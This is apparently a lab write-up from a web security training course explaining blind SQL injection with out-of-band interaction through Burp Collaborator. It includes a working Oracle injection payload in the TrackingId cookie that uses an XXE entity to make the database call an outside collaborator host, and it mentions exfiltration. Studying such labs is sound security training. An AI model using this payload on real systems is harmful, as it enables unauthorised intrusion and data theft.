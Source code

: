 # Lab 13: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

> **Note**
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
> 

### **Hint**

You can find some useful payloads on our SQL injection cheat sheet.

### **Solution**

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
    
    ![2025-05-22_03-12_1.png](LabImg/2025-05-22_03-12_1.png)
    
    ![2025-05-22_03-13.png](LabImg./2025-05-22_03-13.png)
    
2. First, open Burp Collaborator and click on **Get Started** to generate a unique Burp Collaborator subdomain. Use this subdomain to perform the attack. If the target application is vulnerable, it will trigger a DNS lookup to the Burp Collaborator server. This DNS interaction confirms the presence of the vulnerability.
    
    **Collaborator:** a person who works jointly on an activity or project; an associate.
    
    [Burp Collaborator](../Img/Burp%20Collaborator/Burp%20Collaborator.md)
    
    - Burp Collaborator **Step-by-Step Walkthrough**
        
        ## 🧪 Step-by-Step Tutorial Overview
        
        ### **1️⃣. Access the Lab Environment**
        
        - Open Burp's embedded browser and navigate to the Lab:
        - Click on **"Access the lab"** and log in to your PortSwigger account if prompted. This will launch a deliberately vulnerable shopping website for testing purposes.
        
        ### **2️⃣. Explore the Target Site**
        
        - Within the browser, click on various product pages to generate traffic and populate Burp's HTTP history.
        
        ### **3️⃣. Send a Request to Repeater**
        
        - In Burp Suite, go to the **Proxy > HTTP history** tab.
        - Locate a `GET /product?productId=...` request.
        - Right-click on this request and select **"Send to Repeater"**.
        
        ### **4️⃣. Inject a Collaborator Payload**
        
        - Switch to the **Repeater** tab.
        - In the request headers, find the `Referer` header.
        - Highlight the URL in the `Referer` header, right-click, and choose **"Insert Collaborator payload"**. This action replaces the existing URL with a unique Collaborator subdomain, such as:
            
            `204119i326shak9tnk6k36z8jlahj74r.oastify.com`
            
        - Click **"Send"** to dispatch the modified request to the server.
        
        ### **5️⃣. Poll for Interactions**
        
        - Navigate to the **Collaborator** tab in Burp Suite.
        - Burp automatically polls the Collaborator server every 60 seconds. To check immediately, click **"Poll now"**.
        - If the application processed the payload and made a request to the Collaborator server, you'll see entries indicating DNS or HTTP interactions.
        - Click on an interaction to view detailed information about the request.
        
        ---
        
        ## ✅ Summary
        
        By following these steps, you've:
        
        - Generated a unique Collaborator payload.
        - Inserted the payload into a request to the target application.
        - Detected an out-of-band interaction resulting from the application's processing of the payload.
        
        > This process demonstrates how Burp Collaborator can be used to identify vulnerabilities that don't produce immediate or visible responses, such as blind SSRF.
        > 
    
    ![2025-05-22_03-13_1.png](LabImg/2025-05-22_03-13_1.png)
    
3. Modify the `TrackingId` cookie,
changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
    
    ```sql
    TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
    ```
    
    ![2025-05-22_03-14.png](LabImg./2025-05-22_03-14.png)
    
    ![2025-05-22_03-16.png](LabImg./2025-05-22_03-16.png)
    

1. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.
    
    ![2025-05-22_03-22.png](LabImg./2025-05-22_03-22.png)
    
    ![2025-05-22_03-24.png](LabImg./2025-05-22_03-24.png)
    
    ![2025-05-22_03-24_1.png](LabImg./2025-05-22_03-24_1.png)
    

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator to verify that your payload had indeed 
triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

### **Community solutions**

> [https://youtu.be/-t4cr5uRzzA](https://youtu.be/-t4cr5uRzzA)
>